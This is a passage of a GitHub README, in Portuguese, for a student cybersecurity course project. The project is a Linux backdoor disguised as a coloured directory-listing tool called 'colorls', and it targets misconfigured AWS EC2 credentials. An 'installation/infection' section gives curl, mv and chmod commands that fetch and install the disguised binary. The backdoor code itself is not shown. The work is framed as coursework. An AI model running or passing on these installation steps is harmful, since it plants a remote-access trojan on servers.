

<!-- PROJECT LOGO -->

<p align="center">
    
  <p align="center">
    Trabalho da disciplina de Cybersecurity para criação de um vírus que explora vunerabilidade de credenciais mal configuradas em servidores AWS EC2. 
  </p>
</p>

## O desafio! 

Elaborar um vírus da categoria back door que possibilite a execução remota de ações no sistema operacional hospedeiro (Linux).

## O disfarce

O programa se disfarça como uma simples ferramenta de comando para mostrar os diretorios da instância colorido :smile:.

## Porque Klyntar?

O simbionte Venom personagem da Marvel nem sempre foi o inimigo do Homem-Aranha ou um item de seu guarda-roupa. Sua origem está associada a um longínquo planeta na galáxia de Andrômeda, chamado *Klyntar*. Venom é um membro de uma raça alienígena de simbiontes que recebem o mesmo nome de seu planeta natal.

## Instalação/Infecção

``` bash
curl https://github.com/gabriel-dantas98/klyntar/releases/download/0.0.2/colorls.tar 
mv colorls /usr/bin/
chmod +x /usr/bin/colorls

colorls help

colorls install
```

## Por trás dos panos 
